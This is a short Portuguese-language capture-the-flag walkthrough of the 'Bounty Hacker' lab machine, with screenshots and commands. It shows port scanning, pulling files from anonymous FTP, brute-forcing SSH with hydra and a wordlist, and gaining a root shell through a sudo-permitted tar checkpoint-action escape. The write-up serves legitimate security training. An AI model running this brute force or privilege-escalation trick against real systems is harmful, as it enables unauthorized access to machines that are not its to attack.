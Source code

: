   # Bounty Hacker

* ### Scan de portas - Verificando quais portas estão abertas.
```Bash
rustscan -a 10.10.178.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c75d4612-250b-4b74-9b23-02cf7c96fad4)

![image](https://github.com/lufffe/Writeups/assets/90646635/d28fe285-c25f-498d-b388-ff0e594dd34a)

* ### Verificando o que está rodando nas portas encontradas.
```Bash
nmap -A -p 21,22,80 10.10.178.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/709b59c3-3ead-480d-8d68-efb2b099e2a8)

* ### Verificando o que tem no FTP e baixando os arquivos que tem lá.
```Bash
ftp 10.10.178.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7f86aa14-38e5-40b9-97af-7fb7894b5b4b)

* ### Os arquivos encontrados são uma wordlist e uma msg do lin.
![image](https://github.com/lufffe/Writeups/assets/90646635/9591eb26-ecab-4fc7-80a9-133e233981a3)

* ### Fazendo um bruteforce no serviço de SSH, para encontrar a senha do LIN, que possivelmente estará na wordlist.
```Bash
hydra -l lin -P locks.txt 10.10.178.7 ssh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/707a3763-b100-40cd-87a0-df0e26be6b38)

* ### E assim que acessar encontrar a Flag User.
```Bash
cat user.txt
```

* ### Ponto para escalar previlégio.
```Bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6c87b8c9-d117-43a5-934f-6451c2b5e2e9)

* ### GTFOBINS.
![image](https://github.com/lufffe/Writeups/assets/90646635/66d7ba4b-c84d-40a2-a212-27472a4d9e03)

* ### Conseguindo acesso Root.
```Bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c6bf026c-cfae-4a02-8ee1-58dc436aa8f6)

* ### Pegando Flag Root.
```Bash
cat /root/root.txt
```

